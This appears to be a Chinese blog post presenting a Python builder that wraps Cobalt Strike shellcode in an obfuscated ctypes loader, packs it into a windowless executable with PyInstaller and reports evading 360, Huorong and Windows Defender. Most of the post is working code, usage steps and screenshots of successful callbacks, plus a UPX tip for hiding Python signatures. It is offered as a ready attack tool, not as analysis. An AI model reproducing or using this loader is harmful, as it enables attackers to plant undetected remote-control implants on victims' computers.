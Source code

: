 ```yaml
---
layout: post
title: "python一键过杀软"
date: "2023-09-12T00:55:22.931Z"
---
```

python一键过杀软
===========

![python一键过杀软](https://img2023.cnblogs.com/blog/2633401/202309/2633401-20230911171132625-567417635.png) 利用python加载shellcode，生成木马过360、火绒等杀毒软件

python过杀软新
==========

利用python加载shellcode过360、火绒等杀软

先上代码
----

将以下代码保存到 mt.py

    import base64
    import os
    import shutil
    
    buf = b"这里替换shellcode"
    b64buf = base64.b64encode(buf)
    lzsds = """
    import ctypes
    import base64
    
    shellcode= base64.b64decode(\""""+b64buf.decode()+"""\")
    shellcode= bytearray(shellcode)
    ctypes.windll.kernel32.VirtualAlloc.restype= ctypes.c_uint64
    ptr= ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),ctypes.c_int(len(shellcode)), ctypes.c_int(0x3000),ctypes.c_int(0x40))
    buf= (ctypes.c_char *len(shellcode)).from_buffer(shellcode)
    ctypes.windll.kernel32.RtlMoveMemory(
       ctypes.c_uint64(ptr),
       buf,
       ctypes.c_int(len(shellcode))
    )
    handle= ctypes.windll.kernel32.CreateThread(
       ctypes.c_int(0),
       ctypes.c_int(0),
       ctypes.c_uint64(ptr),
       ctypes.c_int(0),
       ctypes.c_int(0),
       ctypes.pointer(ctypes.c_int(0))
    )
    ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(handle),ctypes.c_int(-1))
    """
    def arraydecode(rr):
        list_char = "This is a configuration file please do not delete,=configuration No 'bjABkmpxyz-RSUOPQVEFGHIJKLMWXYZ_3102qvw485CD967=)"
        # 数组加密
        index_b = []
        for i in str(rr):
            index_a = list_char.index(str(i))
            index_b.append(index_a)
        return index_b
    
    ba64lzsds = base64.b64encode(lzsds.encode("utf-8")).decode()
    sdata = arraydecode(ba64lzsds)
    
    #打包
    with open("note.py",'w',encoding="utf-8") as f:
        f.write("""import base64
    import ctypes
    import os
    """+"\n")
        f.write("data = "+str(sdata)+"\n")
        f.write("""def j(index_b):
        list_char = "This is a configuration file please do not delete,=configuration No 'bjABkmpxyz-RSUOPQVEFGHIJKLMWXYZ_3102qvw485CD967=)"
        index_c = ""
        for i in index_b:
            index_c += list_char[i]
        return index_c
    data_j = j(data)
    code = base64.b64decode(data_j).decode('utf-8')
    exec(code)
    """)
    
    
    import PyInstaller.__main__
    try:
        # 获取要打包的脚本路径
        script_file = "note.py"
        # 获取 PyInstaller 路径
        pyinstaller_path = os.path.dirname(PyInstaller.__main__.__file__)
        # 设置打包选项
        build_args = [
            "-F",  # 生成一个单独的可执行文件
            "-w",  # 不显示命令行窗口
            "-i=1.ico",  # ico
            script_file  # 添加要打包的脚本路径
        ]
        # 执行打包命令
        PyInstaller.__main__.run(build_args)
    except:
        print("exe在dist文件夹内")
    
    shutil.rmtree("build")
    shutil.rmtree("__pycache__")
    os.remove("note.spec")
    os.remove("note.py")
    
    

如何使用
----

1、使用cs生成python的payload替换掉mt.py代码中shellcode

![image-20230911163933171](https://img2023.cnblogs.com/blog/2633401/202309/2633401-20230911170636522-670338850.png)

![image-20230911164014040](https://img2023.cnblogs.com/blog/2633401/202309/2633401-20230911170636960-1092846264.png)

![image-20230911164103365](https://img2023.cnblogs.com/blog/2633401/202309/2633401-20230911170637403-801356959.png)

2、准备一个ico图标，放在和mt.py同一目录命名为1.ico，这点可以自行修改。

![image-20230817095216216](https://img2023.cnblogs.com/blog/2633401/202309/2633401-20230911170637731-295878081.png)

一键生成
----

替换掉代码里的shellcode之后，直接运行

    python 文件名.py
    

![image-20230817095421820](https://img2023.cnblogs.com/blog/2633401/202309/2633401-20230911170638075-586919048.png)

exe会生成在在当前目录的dist目录下

![image-20230911164506162](https://img2023.cnblogs.com/blog/2633401/202309/2633401-20230911170638443-437902485.png)

动态上线-成功
-------

复制到我的另一台电脑，开启360核晶和windwos defender

复制过去，无检测拦截

![image-20230911164943954](https://img2023.cnblogs.com/blog/2633401/202309/2633401-20230911170638787-1534747554.png)

双击运行，360无拦截成功上线，火绒也能过

![image-20230911165044118](https://img2023.cnblogs.com/blog/2633401/202309/2633401-20230911170639270-1333191233.png)

![image-20230911165205241](https://img2023.cnblogs.com/blog/2633401/202309/2633401-20230911170639582-1782156020.png)

主动查杀-成功
-------

![image-20230911165353954](https://img2023.cnblogs.com/blog/2633401/202309/2633401-20230911170639927-1481243934.png)

有时候会检测到存在python的特征会报毒，但是运行不影响上线，可以使用upx进行压缩，去除python的特征

upx下载地址 [https://github.com/upx/upx](https://github.com/upx/upx)

    压缩命令
    upx -d note.exe
    

![image-20230911165715103](https://img2023.cnblogs.com/blog/2633401/202309/2633401-20230911170640316-78120862.png)